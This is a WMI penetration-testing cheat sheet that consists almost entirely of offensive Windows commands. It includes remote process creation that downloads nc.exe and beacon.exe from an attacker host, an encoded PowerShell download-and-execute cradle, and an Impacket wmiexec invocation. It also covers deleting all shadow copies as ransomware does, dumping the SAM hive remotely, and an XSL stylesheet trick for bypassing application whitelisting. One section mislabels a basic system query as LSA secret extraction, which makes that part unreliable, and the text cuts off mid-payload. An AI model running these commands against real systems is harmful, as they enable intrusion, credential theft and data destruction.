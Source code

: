 # Windows Management Instrumentation (WMI) Pentest Cheat Sheet
## Core Attack Patterns
### Remote Code Execution (RCE)
```powershell
# Classic lateral movement (DCOM/WinRM)
wmic /node:192.168.1.10 /user:DOMAIN\Admin process call create "cmd /c certutil -urlcache -split -f http://attacker.net/nc.exe C:\\Windows\\Tasks\\nc.exe"

# Classic remote process creation (via WMIC)
wmic /node:192.168.1.10 /user:DOMAIN\Admin process call create "cmd /c certutil -urlcache -split -f http://attacker.net/beacon.exe"

# Modern CIM approach (WinRM/WSMAN)
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{
    CommandLine = "powershell -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AYQB0AHQAYQBjAGsAZQByAC4AbgBlAHQALwBpAG4AdgBhAGwAaQBkAC4AcABzADEAJwApAA=="
}

# Impacket's stealthier WMIexec (semi-interactive shell)
python3 wmiexec.py DOMAIN/user:Password123@target -nooutput -silentcommand "rundll32 javascript:\"\\..\\mshtml,RunHTMLApplication\";document.write();"
```
### Shadow Infrastructure Manipulation
```powershell
# Delete all volume shadows (ransomware/pre-attack)
Get-WmiObject Win32_ShadowCopy | ForEach-Object {$_.Delete()}

# Create malicious shadow storage
$Shadow = (Get-WmiObject -List Win32_ShadowCopy).Create("C:\", "ClientAccessible")
robocopy /b C:\Windows\System32\config\ $Shadow.DeviceObject ConfigBackup
```
### Credential Harvesting Techniques
```powershell
# Extract LSA secrets via WMI (requires SYSTEM)
$Creds = Get-WmiObject -Namespace "root\cimv2" -Query "SELECT * FROM Win32_ComputerSystem" | 
         ForEach-Object { $_.Domain, $_.UserName, $_.PrimaryOwnerName }
$Creds | Out-File C:\Windows\Temp\creds.txt

# Dump SAM remotely using legacy RPC
wmic /node:10.0.2.7 /user:daethyra process call create "reg save HKLM\SAM C:\Windows\Temp\sam.save"
```
## Evasion & Obfuscation Methods
### Signature Bypass Techniques
#### XSL-Based Execution
```cmd
# XSL-based execution (bypasses application whitelisting)
wmic os get /FORMAT:"http://cdn.example[.]org/malicious.xsl?param=1" /RESSETTINGS:"Reserved|JScript=true"

# Malicious.xsl contents:
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:msxsl="urn:schemas-microsoft-com:xslt"
                xmlns:user="http://example.org/">
  <msxsl:script language="JScript" implements-prefix="user">
    <![CDATA[
      new ActiveXObject("WScript.Shell").Run("cmd /c start calc.exe");
```